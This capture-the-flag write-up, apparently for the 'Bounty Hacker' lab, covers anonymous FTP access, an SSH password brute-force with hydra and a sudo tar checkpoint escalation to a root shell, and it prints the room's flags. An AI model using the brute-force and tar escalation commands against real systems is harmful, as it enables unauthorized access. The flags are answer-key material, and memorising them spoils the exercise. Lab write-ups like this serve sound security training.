 my ip      : 10.2.3.159
target ip : 10.10.207.178

A simple nmap scan gives us 3 ports :
```
ftp  : 21
ssh  : 22
http : 80
```

---

Try to connect to the ftp port as anonymous :
```
ftp 10.10.207.178

ftp> ls
229 Entering Extended Passive Mode (|||41812|)
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
```

---
Looking into the files :
```
cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin


cat locks.txt 
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
...
```

User : lin

---
Let's try to bruteforce the ssh service with the user list :
```
hydra -l lin -P locks.txt 10.10.207.178 ssh -t 4

Password found : RedDr4gonSynd1cat3
```

login : lin
password : RedDr4gonSynd1cat3

---
Let's connect to the ssh service with the credentials found :

user.txt : THM{CR1M3_SyNd1C4T3}

Now lets escalade privilege to get root :
```
sudo -l

[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

```

We see that we can run /bin/tar with sudo without password

Let's abuse this breach with this command that will lead to a root shell :
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

# id
uid=0(root) gid=0(root) groups=0(root)

# cd /root
# cat root.txt
THM{80UN7Y_h4cK3r}

```

root.txt : THM{80UN7Y_h4cK3r}


